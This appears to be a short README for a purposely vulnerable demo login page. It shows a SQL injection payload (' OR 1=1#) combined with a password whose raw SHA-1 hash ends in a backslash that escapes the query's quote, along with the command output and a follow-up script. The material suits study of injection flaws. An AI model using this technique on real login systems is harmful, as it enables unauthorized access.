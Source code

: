 DO NOT USE THIS STUFFS! IT'S VULNERABLE TO EBOLA!!!!

```
$ http --form POST http://localhost:8080/ login=' OR 1=1#' pass='/var/games/gnibbles.1.1.scores' | cat
<pre>SELECT login FROM users WHERE passwd='��4
�N븘H��\' AND login=' or 1=1#'</pre>          H��
<h2></h2>
<form action="" method="POST">
    <input type="text" name="login">
    <input type="password" name="pass">
    <input type="submit">
</form>
```

```
$ echo -n '/var/games/gnibbles.1.1.scores' | sha1sum 
90cc3400040b48a79a0dfc4eebb8984817eceb5c  -
```

``5c`` is the ``ASCII`` value for ``\``, the escape character in the ``SQL``.

Using the script ``sqly.py``

```
$ python sqli.py
 ...
value: 71492D099F3B19FF08AC600C1D8F770D82D938A6
```